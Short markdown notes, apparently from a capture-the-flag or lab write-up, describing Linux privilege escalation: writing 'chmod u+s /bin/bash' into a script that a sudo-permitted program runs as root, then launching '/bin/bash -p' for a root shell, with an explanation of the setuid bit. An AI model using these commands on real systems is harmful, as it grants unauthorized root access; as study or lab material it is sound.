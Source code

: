 ## Ways to get to root

### 

find a script the user can run and edit that runs with root rights.
In one example it was like this:

### 1. Way to elevate to root
```bash
echo "chmod u+s /bin/bash" > initdb.sh # create a file

sudo  /usr/bin/syscheck # this is the script that runs with root rights

/bin/bash -p  # this will give you a root shell

```
#### Explanation:
```shell
echo "chmod u+s /bin/bash": This part is creating a string that contains a shell command. 
The command chmod u+s /bin/bash is used to set the "setuid" bit on /bin/bash. 
When a file with the "setuid" bit set is executed, it runs with the permissions of the file's owner, rather than the permissions of the user who is executing the file. 
In this case, since /bin/bash is typically owned by root, this would allow any user to get a root shell by running /bin/bash.  
```